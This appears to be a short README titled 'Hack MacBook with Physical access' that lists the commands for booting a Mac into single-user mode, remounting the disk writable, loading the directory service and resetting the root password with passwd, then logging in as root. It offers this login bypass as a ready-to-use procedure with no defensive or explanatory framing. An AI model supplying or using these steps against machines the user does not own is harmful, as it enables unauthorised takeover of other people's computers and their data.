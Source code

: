 # Hack MacBook with Physical access

## Reboot
```command+s```

```/sbin/fsck -fy```

```/sbin/mount -uw/```

```launchctl load /System/Library/LaunchDaemons/com.apple.opendirectoryd.plist```

```passwd```

## Login as root using new Password
